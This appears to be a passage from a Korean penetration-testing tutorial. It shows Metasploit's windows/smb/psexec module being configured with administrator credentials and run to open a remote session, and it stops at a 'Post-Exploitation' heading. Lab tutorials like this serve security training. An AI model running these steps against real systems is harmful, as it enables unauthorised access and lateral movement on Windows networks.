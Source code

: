 ![4_16](./image4/passthehash.png)

이제 모든 설정이 완료 되었다.

```
msf5 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf5 exploit(windows/smb/psexec) > set smbpass [설정한 암호]
```

옵션을 바꾸고 다시 실행시켜보자

```
> run
```

성공적으로 exploitation이 완료되고 세션이 열린 것을 결과창을 통해 확인 할 수 있다. 



# Post-Exploitation
